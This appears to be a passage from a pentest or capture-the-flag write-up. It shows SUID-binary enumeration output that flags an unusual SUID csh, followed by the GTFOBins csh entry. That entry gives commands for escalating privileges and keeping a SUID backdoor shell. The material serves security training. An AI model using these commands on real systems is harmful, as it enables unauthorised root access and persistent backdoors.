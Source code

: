 ```
  1110  -rwsr-xr-x 1 root root 59K Mar 14  2022 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
  1111  -rwsr-xr-x 1 root root 40K Mar 14  2022 /usr/bin/newgrp  --->  HP-UX_10.20
  1112  -rwsr-xr-x 1 root root 35K Feb 21  2022 /usr/bin/umount  --->  BSD/Linux(08-1996)
  1113  -rwsr-xr-x 1 root root 71K Mar 14  2022 /usr/bin/gpasswd
  1114  -rwsr-xr-x 1 root root 227K Feb 14  2022 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
  1115  -rwsr-xr-x 1 root root 55K Feb 21  2022 /usr/bin/su
  1116  -rwsr-xr-x 1 root root 47K Feb 21  2022 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
  1117  -rwsr-xr-x 1 root root 72K Mar 14  2022 /usr/bin/chfn  --->  SuSE_9.3/10
  1118  -rwsr-xr-x 1 root root 44K Mar 14  2022 /usr/bin/chsh
  1119  -rwsr-sr-x 1 aelis aelis 167K Oct 26  2021 /usr/bin/bsd-csh (Unknown SUID binary!) ←
  1120  -rwsr-xr-x 1 root root 35K Mar 23  2022 /usr/bin/fusermount3
  
[...]
```

<div>
	<img src="./assets/logo_gtfobins.png" alt="GTFOBins Logo" width="16" height="auto">
	<span style="color: white; font-size: 110%;"><strong>GTFOBins</strong></span>
</div>

[csh](https://gtfobins.github.io/gtfobins/csh/)

[**#SUID**]

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.
This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.
```
sudo install -m =xs $(which csh) .

./csh -b
```

